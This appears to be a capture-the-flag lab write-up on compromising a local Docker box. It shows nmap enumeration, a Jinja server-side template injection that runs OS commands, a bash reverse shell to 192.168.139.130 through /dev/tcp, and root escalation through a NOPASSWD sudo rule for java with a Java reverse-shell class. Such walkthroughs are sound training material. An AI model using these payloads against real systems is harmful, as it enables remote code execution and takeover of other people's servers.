 # Consolelog

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 64
3000/tcp open  ppp     syn-ack ttl 64
5000/tcp open  upnp    syn-ack ttl 64

```

## Examining ports

We are going to explore the version of this service. For this, we execute the following command:

```ruby
nmap -sCV -p5000 172.17.0.2 
```
we obtain this dataset:

![alt text](Imagenes/Pingu_1.png)


## Analyzing web page

When we enter the web page, we obtain the following:

It looks like a form created with `Jinja`.
![alt text](Imagenes/Pingu_2.png)

We can execute HTML injection to verify if it has any filters.

![alt text](Imagenes/Pingu_3.png)

If we search for directories on the site with the Gobuster tool, we find `/console`

We need a password to access the console.
![alt text](Imagenes/Pingu_4.png)


## Intrusion

We can try to access with `SSTI (Server Side Template Injection)`

We can run a command to execute an SSTI like this:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

we obtain:

![alt text](Imagenes/Pingu_5.png)

Successfully, we obtain a response from the server showing our user.

Now we are going to prepare the reverse shell to connect with us.

First, we need to use the nc tool:

```ruby
nc -lvnp 1234
```

We can exploit with the following command:

```ruby
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.139.130/1234 0>&1"').read()}}
```

![alt text](Imagenes/Pingu_6.png)


# TTY processing

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Privilege Escalation

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for pinguinazo on 17eb54554e98:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 17eb54554e98:
    (ALL) NOPASSWD: /usr/bin/java

```

We can see that we can execute Java scripts, so we can try to create a file to spawn a shell with root privileges.

Therefore, we need to edit the script with the following code:

```ruby
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.139.130/4321 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}

```

Now, we are able to spawn a shell with root privileges if we execute the following:

```ruby
sudo java shell
```

![alt text](Imagenes/Pingu_8.png)
![alt text](Imagenes/Pingu_9.png)
